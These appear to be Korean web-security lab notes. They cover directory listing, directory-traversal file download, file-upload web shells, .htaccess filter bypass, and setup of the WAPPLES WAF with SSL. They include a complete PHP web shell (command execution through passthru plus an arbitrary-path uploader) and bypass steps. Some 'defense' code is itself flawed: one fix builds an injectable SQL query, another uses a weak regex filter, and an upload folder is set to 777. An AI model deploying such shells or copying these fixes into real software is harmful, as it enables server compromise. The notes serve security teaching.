#####  Directory Listing 취약점


<br>

취약점 확인 해보기


이렇게 디렉터리 안의 구조가 다 보입니다.

<br>

취약한 이유

```
웹서버의 하위 디렉터리 별로 index.html 이 없으면 디렉터리내의 모든 내용이 보여집니다
[root@localhost html]# cd /var/www/html/member/
[root@localhost member]# ls
member_info.php         member_login_check.php  member_nick_change.php
member_info_change.php  member_logout.php       member_register.php
member_login.php        member_nick.php         member_register_ok.php

[root@localhost member]# echo member /var/www/html/member/index.html
member /var/www/html/member/index.html
[root@localhost member]# echo member > /var/www/html/member/index.html
[root@localhost member]# ls
index.html              member_login.php        member_nick.php         member_register_ok.php
member_info.php         member_login_check.php  member_nick_change.php
member_info_change.php  member_logout.php       member_register.php
만들고 다시 확인
```


<br>

디렉터리 설정파일 확인


<br>

방어

```
vim /etc/httpd/conf/httpd.conf

331     #Options Indexes FollowSymLinks    << 주석
 332     Options FollowSymLinks            << 추가
```


<br>

<br>

<br>

##### File Download


<br>

취약점 1


<br>

취약점 2


```
[root@localhost html]# ls -al /var/www/html/board/upload/
합계 8
drwxr-xr-x 2 root root 4096 2016-12-31 18:08 .
drwxr-xr-x 3 root root 4096 2022-11-02 04:29 ..
test.txt 파일이 upload되지 않음

파일 업로드 쪽 디렉터리 퍼미션을 777 
[root@localhost html]# chmod 777 /var/www/html/board/upload/
[root@localhost html]# ls -ld /var/www/html/board/upload/
drwxrwxrwx 2 root root 4096 2016-12-31 18:08 /var/www/html/board/upload/
```

<br>

다시 업로드 시도


```
[root@localhost html]# ls -al /var/www/html/board/upload/
합계 12
drwxrwxrwx 2 root   root   4096 2022-11-02 05:13 .
drwxr-xr-x 3 root   root   4096 2022-11-02 04:29 ..
-rw-r--r-- 1 apache apache    8 2022-11-02 05:13 test.txt       << 파일 업로드 완료

이 게시글을 쓰는 사용자 계정이 root가 아닌 apache계정 이므로
퍼미션을 부여해 줘야 합니다.
```

<br>

웹 서버 디렉터리 구조

```
웹서버 디렉터리 구조
/var/www/html/index.php

/var/www/html/member/member~~~.php

/var/www/html/board/board~~~.php
/var/www/html/board/upload/test.txt 

../../index.php -> Directory Traversal 
```

<br>

업로드 확인 > 다운로드

게시판에서 파일 다운로드 클릭후 paros 에서 확인


<br>

취약점 3


<br>

방어 1

Directory Traversal에 해당하는 "../" 문자열을 적절하게 필터링 하는 방법

```
vim /var/www/html/board/board_file_download.php

<?php
  $file_name = urldecode($_GET['filename']);
  $file_name = str_replace("../","",$file_name); << 추가
  $file_path = "./upload/$file_name";
  $file_size = filesize($file_path);

  header("Content-Type: application/x-octetstream");
  header("Content-Disposition: attachment; filename=".urlencode($file_name));
  header("Content-Transfer-Encoding: binary");
  header("Content-Length: $file_size");

  readfile($file_path);

 ?>

```

확인


<br>

방어 2

업로드된 파일만 다운로드 할수 있도록 

주의점 : 디렉터리를 ls 해서 확인 X  ,

데이터베이스에 파일명이 저장된 것을 가지고 비교

실제로 DB 에는 있지만 파일이 존재 하지 않을수도 있음

<br>

board 테이블의 파일 업로드 관련 정보 확인 


<br>


```
/var/www/html/board/board_file_download.php

<?php
  $file_name = urldecode($_GET['filename']);
  // $file_name = str_replace("../","",$file_name);
  
  require("../dbconn.php");
	$strSQL = "select * from board where filename='{$file_name}'";
  $result = mysql_query($strSQL);
  $rs_row = mysql_fetch_array($result);
  echo $rs_row['filename']."<br>".$file_name;

  if($rs_row['filename'] != $file_name)
  { 
    echo "<script>alert('file not found');</script>";
    exit;
  }


  $file_path = "./upload/$file_name";
  $file_size = filesize($file_path);

  header("Content-Type: application/x-octetstream");
  header("Content-Disposition: attachment; filename=".urlencode($file_name));
  header("Content-Transfer-Encoding: binary");
  header("Content-Length: $file_size");

  readfile($file_path);

?>
```

<br>

확인


<br>

<br>

<br>

##### File Upload


<br>

phpinfo();


<br>

system("명령어");


<br>

c99shell Upload


```
업로드 경로 
/var/www/html/board/upload/c99shell.PhP
http://서버주소/board/upload/c99shell.PhP
```

<br>

Web Shell 실행

http://서버주소/board/upload/c99shell.PhP


<br>

다른 web shell 실행

```
<html>
	<head></head>
	<body>
		<div align="left">
			<font size="2">Input command : </font>
			<form name="cmd" method="post" enctype="multipart/form-data">
				<input type="text" name="cmd" size="30" class="input"><br>
				<pre>
				<?php
				if($_POST['cmd']){
					$cmd = $_POST['cmd'];
					passthru($cmd);
				}
				?>
				</pre>
			</form>
		</div>
		<hr>
		<div align="left">
			<font size="2">Uploader file : </font>
			<form name="forml" method="post" enctype="multipart/form-data">
				<input type="text" name="dir" size="30" value="<? passthru("pwd"); ?>">
				<input type="submit" name="submit2" value="Upload">
				<input type="file" name="file" size="15"
				<pre>
				<?php
				$uploaded = $_FILES['file']['tmp_name'];
				if(file_exists($uploaded)){
					$pwddir = $_POST['dir'];
					$real = $_FILES['file']['name'];
					$dez = $pwddir."/".$real;
					copy($uploaded, $dez);
					echo "FILE UPLOADED TO $dez";	
				}
				?>
				</pre>
			</form>
		</div>
	</body>
</html>

위의 코드로 webshell.php 만들어서 게시글에 업로드
```


<br>

Web Shell로 upload


<br>

방어


<br>

확장자 필터링

```
파일명 안에 .html , .php 가 있으면 업로드 불가능 하도록

vim /var/www/html/board/board_write_ok.php

// html , php , htm 확장자 사용시 파일 업로드 차단
25                 if(preg_match("/.html|.php|.htm/i",$f_name))  
26                 {
27                 echo "<script>alert('해당 확장자를 가진 파일은 업로드 불가능 합니다.');
28                 history.back();
29                 </script>";
30                 exit;
31                 }

if문 부분 추가
```

<br>

확인


<br>

.htaccess 파일을 이용한 확장자 필터링 우회

```
htaccess 를 이용하여 우회 

1) webshell.php 를 복사하여 webshell.txt 로 변경

2) .htaccess 파일 생성 
C:\Documents and Settings\ktest>cd c:\

C:\>copy con .htaccess
Addtype application/x-httpd-php .txt
^Z
        1개 파일이 복사되었습니다.

C:\>type .htaccess
Addtype application/x-httpd-php .txt   --> txt 파일도  php 처럼 해석해주세요 

3) 게시판에 .htaccess 를 업로드
 
4) 게시판에 webshell.txt 를 업로드

5) http://서버주소/board/upload/webshell.txt
```


```
/etc/httpd/conf/httpd.conf

335 # AllowOverride controls what directives may be placed in .htaccess files.
336 # It can be "All", "None", or any combination of the keywords:
337 #   Options FileInfo AuthConfig Limit
338 #
339 # AllowOverride None
340     AllowOverride All  -> 디렉터리별 .htaccess 사용 관련 
```


```
/etc/httpd/conf/httpd.conf

339 # AllowOverride None
340     AllowOverride **All**
~
1013 # php parsing format
1014 Addtype application/x-httpd-php .php4 .php .phtml .ph .inc .html .htm  --> 전체 적용 되는 부분

htaccess 를 사용하면 디렉터리별로 별도 지정 가능 
```

<br>

<br>

<br>

##### WAPPLES


<br>

구성 방식


<br>

구성도



<br>

실습 환경 구성

1. VirtualBox 설치 https://www.virtualbox.org/
2. extension pack 설치
3. WAPPLES OVA import 


4. WAPPLES 설정


만들기로 2개 만들어서 총 3개가 나오도록 해주시면 됩니다.

<br>

이 사진은 설정 순서 사진입니다. 최종 설정은 밑에 사진처럼 해주시면 됩니다.




<br>

WAPPLES 로그인


<br>

###### WAPPLES 세부 설정

모드진입


<br>

interface 명 변경



<br>

인터페이스 설정



<br>

bridge 설정



<br>

관리자화면







<br>

인증

```
환경설정 > 시스템 > 라이선스 > 라이선스 등록 > 라이선스 파일 입력 > 해당 인증서 선택 > 검증 
"기능별 라이선스 등록을 완료 하였습니다. 기능 리스트를 확인 하세요" 팝업확인 확인

마법사 > step 1 of 9 
step 2 of 9 
step 3 of 9 : 새로운 웹서버 추가 
step 5 of 9 : Inline 모드 
step 7 of 9 : 웹서버 IP 설정 , 웹서버 IP : 172.16.10.200 ,  웹서버 port : 80 
step 8 of 9 : 웹사이트 설정 , 웹사이트 이름 :  172.16.10.200 ,웹사이트 설명 테스트 , 정책 : 탐지만 하고 차단안함 
step 9 of 9 : 완료
```

<br>

XSS test > 로그 확인 



<br>

SQL Injection : WAS 인증 우회 



<br>

SQL injection : non-blind injection 


<br>

Directory Listing



<br>

File UPload 



<br>

<br>

<br>

##### SSL

구성도



<br>

ssl 접속 테스트



<br>

회원가입 하고 게시글 3개정도 만들기


<br>

###### https에 공격 해보기

SQL injection : non-blind injection



<br>

SQL Injection : WAS 인증 우회 



<br>

XSS



<br>

Directory Listing



<br>

W7 -> SSL 을 인식하도록 프로파일을 등록

```
환경설정 -> 탐지 -> SSL라이선스 -> 확인 -> 저장
```



<br>

W7 -> 웹서버에 등록 : TCP 443



<br>

W7 -> 정책 설정



<br>

2008에서 공격하고 w7에서 log 확인



<br>

<br>

<br>

##### Heart Bleed



<br>

구성도

